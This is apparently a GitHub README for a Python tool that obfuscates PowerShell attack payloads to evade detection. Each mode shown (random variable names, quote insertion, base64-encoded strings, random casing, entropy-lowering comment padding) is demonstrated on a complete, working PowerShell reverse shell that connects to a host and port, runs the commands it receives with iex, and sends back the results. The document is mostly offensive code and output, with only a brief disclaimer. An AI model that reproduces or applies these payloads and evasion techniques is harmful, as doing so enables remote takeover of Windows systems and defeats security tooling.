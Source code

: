 # auto_powershell_obfuscation - Beta

## Description

An automated tool for obfuscation of a powershell script.
This tool is for experimental purposes, I am not responsible for your actions.

## Usage

```
python3 obfuscator.py -f <YOUR_PAYLOAD> -m <MODE>
```

```powershell
PS C:\auto_powershell_obfuscation> python3 .\obfuscator.py -f .\test_payload.txt

New Payload 

$48b23f7aaadc4e96932c24c2fd6c1430 = N""ew-Object Sy''s""tem.Net.Sockets.TCPClient('127.0.0.1',8181);$be30aeef96bc427db72645b20e22b4bc = $48b23f7aaadc4e96932c24c2fd6c1430.GetStream();[byte[]]$0e2e781a1e26488f98d4d5057254669d = 0..65535|%{0};while(($143b0ba8bb9d4270963f5d48892cf60e = $be30aeef96bc427db72645b20e22b4bc.Read($0e2e781a1e26488f98d4d5057254669d, 0, $0e2e781a1e26488f98d4d5057254669d.Length)) -ne 0){;$b98b18b0b96a4336ab5c1b5f53172f6e = (New-Object -TypeName Syst""em.Text.ASCIIEncoding).GetString($0e2e781a1e26488f98d4d5057254669d,0, $143b0ba8bb9d4270963f5d48892cf60e);$82f0188570bb4842ae4d302dec137166 = (i""ex $b98b18b0b96a4336ab5c1b5f53172f6e 2>&1 | Out-String );$8a7ef545026b4a2e807bc6a667c70cbe = $82f0188570bb4842ae4d302dec137166 + 'PS ' + (pwd).Path + '> ';$2e6d40d1196a40569af7fac1184d3696 = ([text.encoding]::ASCII).GetBytes($8a7ef545026b4a2e807bc6a667c70cbe);$be30aeef96bc427db72645b20e22b4bc.Write($2e6d40d1196a40569af7fac1184d3696,0,$2e6d40d1196a40569af7fac1184d3696.Length);$be30aeef96bc427db72645b20e22b4bc.Flush()};$48b23f7aaadc4e96932c24c2fd6c1430.Close()

New payload entropy: 5.138376499232824
```

## Mode

### Var

**var** mode only changes the names of your variables according to the entropy rules.

```powershell
PS C:\auto_powershell_obfuscation> python .\obfuscator.py -m var -f .\payload.txt 

$4fe310251c7d4c8f937142076d281ce6 = New-Object System.Net.Sockets.TCPClient('127.0.0.1',8181);$45cbaabdf14f45a191c972b6307a6abb = $4fe310251c7d4c8f937142076d281ce6.GetStream();[byte[]]$95c66e4518fc49bdbe1a369ca1fa4588 = 0..65535|%{0};while(($b9285b898cbe4628aa860f2608aa2195 = $45cbaabdf14f45a191c972b6307a6abb.Read($95c66e4518fc49bdbe1a369ca1fa4588, 0, $95c66e4518fc49bdbe1a369ca1fa4588.Length)) -ne 0){;$f26c594770184cb9ad926878184d061d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($95c66e4518fc49bdbe1a369ca1fa4588,0, $b9285b898cbe4628aa860f2608aa2195);$2031bb366ddb4bd0a88e411227464baa = (iex $f26c594770184cb9ad926878184d061d 2>&1 | Out-String );$5dc4676c22014043b312ff6e180ba5ff = $2031bb366ddb4bd0a88e411227464baa + 'PS ' + (pwd).Path + '> ';$5d584a8b541a4220b78f14b13a6c9ee9 = ([text.encoding]::ASCII).GetBytes($5dc4676c22014043b312ff6e180ba5ff);$45cbaabdf14f45a191c972b6307a6abb.Write($5d584a8b541a4220b78f14b13a6c9ee9,0,$5d584a8b541a4220b78f14b13a6c9ee9.Length);$45cbaabdf14f45a191c972b6307a6abb.Flush()};$4fe310251c7d4c8f937142076d281ce6.Close()
```

### Boolean

**boolean** mode replaces simple $True or $False with equivalent boolean expressions.

`$True` => `[bool]1254`

### Quote - Beta

**quote** mode will sprinkle your code with quotation marks where they don't disturb the flow (/!\ beware /!\ this mode is not completely finished, check that it works properly before using it)

```powershell
C:\auto_powershell_obfuscation> python .\obfuscator.py -m quote -f .\payload.txt

$client = New-Object Sys""t''em.Net.Sockets.TCPClient('127.0.0.1',8181);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (N''ew-Object -TypeName Sy''st''em.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (p""wd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Gcm

**gcm** mode uses a trick that replaces cmdlets with a gcm call. This method reduces the entropy of our payload but also makes it slightly less efficient.

```powershell
PS C:\auto_powershell_obfuscation> python .\obfuscator.py -m gcm -f .\payload.txt

```

### Commentropy

**commentropy** mode creates long comments in your payload and reduces the entropy of your payload.

```powershell
PS C:\auto_powershell_obfuscation> python .\obfuscator.py -f .\payload.txt -m commentropy
$client <#*********************************#>=<#*******************************#> New-Object System.Net.Sockets.TCPClient('127.0.0.1',8181);$stream <#*********************************#>=<#*******************************#> $client.GetStream();[byte[]]$bytes <#*********************************#>=<#*******************************#> 0..65535|%{0};while(($i <#*********************************#>=<#*******************************#> $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data <#*********************************#>=<#*******************************#> (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback <#*********************************#>=<#*******************************#> (iex $data 2>&1 | Out-String );$sendback2 <#*********************************#>=<#*******************************#> $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte <#*********************************#>=<#*******************************#> ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### str64

**str64** mode will base64 encode your strings, then decode them in your payload

```powershell
PS C:\auto_powershell_obfuscation> python .\obfuscator.py -f .\payload.txt -m str64   
$client = New-Object System.Net.Sockets.TCPClient([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('MTI3LjAuMC4x')),8181);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('UFMg')) + (pwd).Path + [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('PiA='));$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Rcase

**rcase** mode will change the case of your payload at random.

```powershell
PS C:\auto_powershell_obfuscation> python .\obfuscator.py -f .\payload.txt -m rcase
$client = neW-ObJect sYSTem.nET.sockets.tcPclienT('127.0.0.1',8181);$stream = $client.GetStream();[Byte[]]$bytes = 0..65535|%{0};WhIlE(($i = $stream.Read($bytes, 0, $bytes.Length)) -NE 0){;$data = (NEW-obJect -tYpEnAmE sYsTeM.tExt.ASCiiencODiNG).GETsTRINg($bytes,0, $i);$sendback = (IEX $data 2>&1 | ouT-sTRIng );$sendback2 = $sendback + 'PS ' + (PwD).path + '> ';$sendbyte = ([teXt.ENCODING]::aSCII).getByTes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```


### Entropy

**entropy** mode allows you to calculate the entropy of your payload.

```powershell
C:\auto_powershell_obfuscation> python .\obfuscator.py -m entropy -f .\payload.txt

5.265027259625534
```
